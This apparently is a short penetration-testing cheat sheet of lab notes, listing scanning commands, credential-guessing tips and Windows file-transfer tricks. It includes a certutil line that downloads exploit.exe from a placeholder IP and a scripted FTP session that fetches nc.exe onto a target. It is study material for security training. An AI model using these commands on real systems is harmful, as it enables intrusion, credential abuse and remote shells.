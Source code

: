 Try SQL injection! If nothing works, Always try cewl to generate wordlists and default credentials to login to admin consoles, and ssh! 

If a password is ever found try it on every service that allows a login!



uniquie Ports:
Always check if its. web site!




# Scanning

masscan -e tun0 -p 1-65535 --rate 2000 10.11.1.

sudo autorecon 

nmap -sV --script vuln

Scan for UDP

nmap 10.11.1.X -sU





# Windows File Transfer


certutil.exe -urlcache -split -f "http://IP/exploit.exe"

# FTP
  
  On LOCAL:

# pip install pyftpdlib

# python -m pyftpdlib -p 21 -w         <- "-w" flag enables anonymous write permission
                                          
                                          

open IP 21> ftp.txt

USER kali>> ftp.txt

PASS supersecret>> ftp.txt

GET nc.exe >> ftp.txt

bye >> ftp.txt

  
  
  
# SMB
